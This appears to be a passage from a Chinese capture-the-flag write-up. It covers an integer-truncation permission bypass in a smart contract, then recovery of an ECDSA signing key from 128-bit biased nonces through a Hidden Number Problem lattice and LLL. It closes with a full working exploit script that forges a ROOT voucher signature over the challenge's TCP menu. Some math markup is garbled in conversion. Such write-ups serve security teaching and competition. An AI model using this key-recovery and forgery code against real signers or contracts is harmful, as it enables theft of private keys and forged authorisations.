检查时先把 `level` 转成了 `uint8`，但写入 storage 时仍然使用原始的 `uint256` 值。

因此提交：level = 256

实际执行结果为：uint8\(256\) = 0，检查通过

clearance
$$
player
$$
 = 256

于是isAuditor\(player\) = true，进入 `[2] Signer Audit Console`。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

2. 发现 nonce 只有 128 bit

Audit Console 中会显示 firmware snippet：

```python
def derive_nonce(counter):
    raw = HMAC_SHA256(device_secret, counter.to_bytes(8, "big"))
    return int.from_bytes(raw[:16], "big")
```

`raw[:16]` 只保留了 16 字节，因此每个 nonce 满足：$0 < k_i < 2^{128}$

但 secp256k1 的群阶是约 256 bit 的：

n = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141

于是存在 `small biased nonce` 问题。

收集 12 份以上签名即可

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

3. 计算消息哈希 z

合约定义了 voucher digest：

```solidity
function voucherDigest(
    uint256 serial,
    uint256 amount
) public view returns (bytes32) {
    return keccak256(abi.encode(address(this), serial, amount));
}
```

因此每份签名的消息哈希为：

```solidity
z_i = keccak256(
    abi.encode(
        contract_address,
        serial_i,
        amount_i
    )
)
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

4. 从 ECDSA 得到 HNP

ECDSA 签名满足：$s_i k_i = z_i + r_i d \mod n$

其中：

- `d` 是 signer 私钥；`k_i` 是第 `i` 份签名的 nonce；`(r_i, s_i)` 是签名；`z_i` 是消息哈希。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

$k_i = r_i s_i^{-1} d + z_i s_i^{-1} \mod n$

定义：

$t_i = r_i s_i^{-1} \mod n$

$a_i = z_i s_i^{-1} \mod n$

则：

$k_i = t_i d + a_i \mod n$

普通 ECDSA 中 `k_i` 在 `[1, n)` 中随机分布，但本题 $0 < k_i < 2^{128}$

因此问题变成：寻找一个相同的 `d`，

使得所有 $(t_i d + a_i) \mod n$ 都落在很小的区间 $[0,2^{128})$ 中。这就是 Hidden Number Problem。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

5. LLL lattice

设一共有 `m` 份签名。构造如下整数格基：

$[ n^2\ 0 \ ... \ 0 \ 0 \ 0 ]
$

$[ 0 \ n^2 \ ... \ 0 \ 0 \ 0 ]$

$[\  \ ... \  ]$

$[ 0 \ 0 \ ... \ n^2 \ 0 \ 0 ]$

$[ nt_1 \ nt_2 \ ... \ n t_m \ B \ 0 ]$

$[ n a_1 \ n a_2 \ ... \ n a_m \ 0 \ nB ]$

其中：$B = 2^{128}$

因为存在整数 `q_i` 使得 $k_i = t_i d + a_i - n q_i$

所以格中存在一个短向量：$[ n k_1, n k_2, ..., n k_m, B d, nB ]$

它的前 `m` 个坐标都比较小，对上述矩阵执行 LLL。

约化后的基中通常可以找到最后一个坐标为 \+nB 或 \-nB 的向量。

若该向量的倒数第二个坐标为 `x`，则 $d = x / B \mod n$

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

6. 伪造 ROOT voucher

合约拒绝普通 audit signer 直接签发 ROOT amount：

uint256 public constant ROOT\_AMOUNT = 0x535553435446;

恢复私钥后，任选一个 serial，例如：

serial = 9001

amount = 0x535553435446

计算 ROOT digest：

```solidity
z_root = keccak256(
    abi.encode(
        contract_address,
        9001,
        0x535553435446
    )
)
```

使用恢复出的 `d` 生成新的 ECDSA 签名：

```solidity
(v, r, s) = ECDSA_sign(d, z_root)
```

然后通过 TCP 菜单 `[3] Submit ROOT voucher` 提交：

serial = 9001

v      = 27 或 28

r      = forged r

s      = forged s

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

7. 总结一下流程

uint8\(256\) == 0

↓

权限检查绕过

↓

raw
$$
:16
$$
 只产生 128\-bit nonce

↓

ECDSA 小 nonce HNP

↓

LLL 恢复 d

↓

伪造 ROOT ECDSA 签名

↓

ecrecover 验证成功

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

全自动exp：

```python
#!/usr/bin/env sage
"""
Run with:
    sage exp/solve.sage 127.0.0.1 18080
"""

from sage.all import *
from Crypto.Hash import keccak
import re
import secrets
import socket
import sys

N = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141
P = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEFFFFFC2F
GX = 55066263022277343669578718895168534326250603453777594175500187360389116729240
GY = 32670510020758816978083085130507043184471273380659243275938904335757337482424
G = (GX, GY)
NONCE_BOUND = 1 << 128
ROOT_AMOUNT = 0x535553435446


def keccak256(data):
    h = keccak.new(digest_bits=256)
    h.update(data)
    return h.digest()


def abi_word(value):
    return int(value).to_bytes(32, "big")


def abi_address(address):
    raw = bytes.fromhex(address[2:])
    if len(raw) != 20:
        raise ValueError("invalid contract address")
    return raw.rjust(32, b"\x00")


def voucher_digest(address, serial, amount):
    return keccak256(abi_address(address) + abi_word(serial) + abi_word(amount))


def inv(value, modulus):
    return pow(value % modulus, -1, modulus)


def point_add(left, right):
    if left is None:
        return right
    if right is None:
        return left
    x1, y1 = left
    x2, y2 = right
    if x1 == x2 and (y1 + y2) % P == 0:
        return None
    if left == right:
        slope = (3 * x1 * x1) * inv(2 * y1, P) % P
    else:
        slope = (y2 - y1) * inv(x2 - x1, P) % P
    x3 = (slope * slope - x1 - x2) % P
    y3 = (slope * (x1 - x3) - y1) % P
    return x3, y3


def point_mul(scalar, point=G):
    result = None
    addend = point
    scalar %= N
    while scalar:
        if scalar & 1:
            result = point_add(result, addend)
        addend = point_add(addend, addend)
        scalar >>= 1
    return result


class Tube:
    def __init__(self, host, port):
        self.sock = socket.create_connection((host, port), timeout=10)
        self.sock.settimeout(30)
        self.buffer = b""

    def sendline(self, line):
        self.sock.sendall(str(line).encode() + b"\n")

    def recv_until(self, marker):
        while marker not in self.buffer:
            chunk = self.sock.recv(4096)
            if not chunk:
                raise RuntimeError("challenge connection closed unexpectedly")
            self.buffer += chunk
        end = self.buffer.index(marker) + len(marker)
        result = self.buffer[:end]
        self.buffer = self.buffer[end:]
        return result.decode("utf-8", "replace")

    def close(self):
        self.sock.close()


def field(text, name):
    match = re.search(r"^" + re.escape(name) + r"\s*=\s*(0x[0-9a-fA-F]+|[0-9]+)", text, re.MULTILINE)
    if not match:
        raise RuntimeError("field not found: " + name + "\\n" + text)
    return int(match.group(1), 0)


def recover_private_key(samples):
    """Recover d from s_i*k_i = z_i + r_i*d mod N, 0 < k_i < 2^128."""
    count = len(samples)
    q = ZZ(N)
    bound = ZZ(NONCE_BOUND)
    matrix = Matrix(ZZ, count + 2, count + 2)

    for i, sample in enumerate(samples):
        r, s, z = sample
        s_inv = inv(s, N)
        t = (r * s_inv) % N
        a = (z * s_inv) % N
        matrix[i, i] = q * q
        matrix[count, i] = q * t
        matrix[count + 1, i] = q * a

    matrix[count, count] = bound
    matrix[count + 1, count + 1] = q * bound

    reduced = matrix.LLL(delta=0.99)

    def valid(candidate):
        if not 1 <= candidate < N:
            return False
        for r, s, z in samples:
            k = ((r * inv(s, N) * candidate) + (z * inv(s, N))) % N
            if not 1 <= k < NONCE_BOUND:
                return False
            if (s * k - z - r * candidate) % N != 0:
                return False
            point = point_mul(k)
            if point is None or point[0] % N != r:
                return False
        return True

    for row in reduced.rows():
        last = int(row[count + 1])
        if abs(last) != N * NONCE_BOUND:
            continue
        sign = 1 if last > 0 else -1
        middle = int(row[count])
        if middle % NONCE_BOUND != 0:
            continue
        candidate = (middle // (sign * NONCE_BOUND)) % N
        if valid(candidate):
            return candidate

    raise RuntimeError(
        "LLL did not produce a valid key; collect more samples or retry the reduction"
    )


def sign_digest(private_key, digest):
    z = int.from_bytes(digest, "big")
    while True:
        k = secrets.randbelow(N - 1) + 1
        point = point_mul(k)
        if point is None:
            continue
        x, y = point
        if x >= N:
            continue
        r = x % N
        if r == 0:
            continue
        s = inv(k, N) * (z + r * private_key) % N
        if s == 0:
            continue
        return 27 + (y & 1), r, s


def main():
    host = sys.argv[1] if len(sys.argv) > 1 else "127.0.0.1"
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 18080
    tube = Tube(host, port)
    try:
        banner = tube.recv_until(b"> ")
        address_match = re.search(r"Challenge contract:\s*(0x[0-9a-fA-F]{40})", banner)
        if not address_match:
            raise RuntimeError("contract address missing from banner")
        contract = address_match.group(1)
        print("[+] contract:", contract)

        tube.sendline("1")
        tube.recv_until(b"level> ")
        tube.sendline("256")
        clearance = tube.recv_until(b"> ")
        if "isAuditor=True" not in clearance:
            raise RuntimeError("uint8 clearance bypass failed")
        print("[+] clearance bypass: OK")

        tube.sendline("2")
        audit_menu = tube.recv_until(b"audit> ")
        if "Generate audit voucher" not in audit_menu:
            raise RuntimeError("unexpected audit console")
        tube.sendline("2")
        firmware = tube.recv_until(b"audit> ")
        if "raw[:16]" not in firmware:
            raise RuntimeError("unexpected firmware snippet")
        print("[+] firmware confirms 128-bit nonce")

        samples = []
        for index in range(16):
            tube.sendline("1")
            output = tube.recv_until(b"audit> ")
            serial = field(output, "serial")
            amount = field(output, "amount")
            r = field(output, "r")
            s = field(output, "s")
            v = field(output, "v")
            z = int.from_bytes(voucher_digest(contract, serial, amount), "big")
            samples.append((r, s, z))
            print("[+] audit voucher %d/16" % (index + 1))

        tube.sendline("3")
        tube.recv_until(b"> ")

        print("[*] running HNP/LLL")
        private_key = recover_private_key(samples)
        print("[+] recovered signer key: 0x%064x" % private_key)

        root_serial = 9001
        root_digest = voucher_digest(contract, root_serial, ROOT_AMOUNT)
        v, r, s = sign_digest(private_key, root_digest)

        tube.sendline("3")
        tube.recv_until(b"serial> ")
        tube.sendline(str(root_serial))
        tube.recv_until(b"v> ")
        tube.sendline(str(v))
        tube.recv_until(b"r> ")
        tube.sendline("0x%064x" % r)
        tube.recv_until(b"s> ")
        tube.sendline("0x%064x" % s)
        tube.recv_until(b"flag=")
        flag = tube.recv_until(b"\n").strip()
        print("[+] ROOT voucher accepted")
        print("[+] flag:", flag)
    finally:
        tube.close()


if __name__ == "__main__":
    main()

```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

